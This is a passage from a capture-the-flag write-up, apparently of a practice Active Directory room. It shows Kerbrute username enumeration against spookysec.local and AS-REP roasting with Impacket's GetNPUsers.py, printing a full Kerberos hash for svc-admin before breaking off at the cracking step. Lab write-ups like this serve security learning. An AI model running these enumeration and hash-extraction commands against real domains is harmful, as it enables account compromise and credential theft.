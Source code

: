 ## Kerberos Enumeration :

Kerbrute is a tool that performs Kerberos pre-auth bruteforcing, in this case we will be using the username bruteforce feature.

```
bvr0n@kali:~/Kerbute$ ./kerbrute_linux_amd64 userenum -d spookysec.local  --dc spookysec.local ~/CTF/THM/AttacktiveDirect/userlist.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 11/12/20 - Ronnie Flathers @ropnop

2020/11/12 07:59:40 >  Using KDC(s):
2020/11/12 07:59:40 >   spookysec.local:88

2020/11/12 07:59:41 >  [+] VALID USERNAME:       james@spookysec.local
2020/11/12 07:59:43 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2020/11/12 07:59:45 >  [+] VALID USERNAME:       James@spookysec.local
2020/11/12 07:59:46 >  [+] VALID USERNAME:       robin@spookysec.local
2020/11/12 07:59:54 >  [+] VALID USERNAME:       darkstar@spookysec.local
2020/11/12 08:00:00 >  [+] VALID USERNAME:       administrator@spookysec.local
2020/11/12 08:00:10 >  [+] VALID USERNAME:       backup@spookysec.local
2020/11/12 08:00:16 >  [+] VALID USERNAME:       paradox@spookysec.local
2020/11/12 08:00:46 >  [+] VALID USERNAME:       JAMES@spookysec.local
2020/11/12 08:00:56 >  [+] VALID USERNAME:       Robin@spookysec.local
2020/11/12 08:01:59 >  [+] VALID USERNAME:       Administrator@spookysec.local
2020/11/12 08:04:12 >  [+] VALID USERNAME:       Darkstar@spookysec.local
2020/11/12 08:04:55 >  [+] VALID USERNAME:       Paradox@spookysec.local
2020/11/12 08:07:53 >  [+] VALID USERNAME:       ori@spookysec.local
2020/11/12 08:09:07 >  [+] VALID USERNAME:       ROBIN@spookysec.local
```
### ASREPRoasting :

Now that we have discovered a several usernames we can use a technique called ASREPRoasting, meaning if a user does not have the Kerberos preauthentication property selected it is possible to retrieve the password hash from that user. 
Impacket provides a tool called GetNPUsers.py which can query the AD and if the property above is not selective it will export their TGT.

```
bvr0n@kali:/opt/impacket/examples$ python3 GetNPUsers.py spookysec.local/svc-admin -no-pass
Impacket v0.9.22.dev1+20201105.154342.d7ed8dba - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:a9ba7723b142129ccf7d864d21ad5804$2e43b826b31c08cc1bc3633b7d916dbaacf5c6dec0bfbb097e4955bd8d225906367c230dcdf5e68a84ff0f4d473c87d4a1d7b552631a33b4e6a995a58d88239911cf23961bc3a5f5b756d0dfbfec4936ad7f2df721ed007279aaf5e6536b6076799eb906d76331830cbd0ecfcfe17d30cdde4d16ec032d590f53379b12700fb6e9cf56b493856f342b43400f11d63c2d6915c5baf81d2cfb0b75aa106e33f73a85c28ef8ca4b55dc4efdf817c9ec8097e92e84460179ba90a5a771314a13e781daf2b3d6457bb595ebc8000b20c2c845f6efe97ba57c168cee57ccd883cf6eeae0d2ec731b4d48d0573f86abffd760e5b5b0
```
Since we were able to get the svc-admin hash, Let's decrypt it now :
